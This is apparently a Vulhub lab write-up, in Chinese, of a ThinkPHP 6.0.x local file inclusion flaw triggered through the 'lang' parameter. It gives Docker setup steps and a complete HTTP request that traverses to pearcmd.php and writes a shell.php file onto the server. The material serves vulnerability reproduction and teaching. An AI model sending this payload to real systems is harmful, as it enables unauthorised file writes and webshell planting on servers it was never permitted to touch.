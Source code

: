 # ThinkPHP 多语言本地文件包含漏洞

## 漏洞描述

ThinkPHP 是一个在中国使用较多的 PHP 框架。在其 6.0.13 版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用 `lang` 参数来包含任意 PHP 文件。

虽然只能包含本地 PHP 文件，但在开启了 `register_argc_argv` 且安装了 pcel/pear 的环境下，可以包含 `/usr/local/lib/php/pearcmd.php` 并写入任意文件。

参考链接：

- <https://tttang.com/archive/1865/>
- <https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp> （本文介绍了 `pearcmd.php` 利用技巧的原理）

## 环境搭建

Vulhub 执行如下命令启动一个使用 ThinkPHP 6.0.12 版本开发的 Web 应用：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可查看到 ThinkPHP 默认的欢迎页面。

![image-20230504110841526](images/image-20230504110841526.png)

## 漏洞利用

首先，ThinkPHP 多语言特性不是默认开启的，所以我们可以尝试包含 `public/index.php` 文件来确认文件包含漏洞是否存在：

![image-20230504111549577](images/image-20230504111549577.png)

如果漏洞存在，则服务器会出错，返回 500 页面。

文件包含漏洞存在的情况下还需要服务器满足下面两个条件才能利用：

1. PHP 环境开启了 `register_argc_argv`
2. PHP 环境安装了 pcel/pear

Docker 默认的 PHP 环境恰好满足上述条件，所以我们可以直接使用下面这个数据包来在写 `shell.php` 文件：

```
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

如果服务器返回 pearcmd 的命令行执行结果，说明漏洞利用成功：

![image-20230504111600929](images/image-20230504111600929.png)

此时访问 `http://your-ip:8080/shell.php` 即可发现已经成功写入文件：

![image-20230504111609053](images/image-20230504111609053.png)
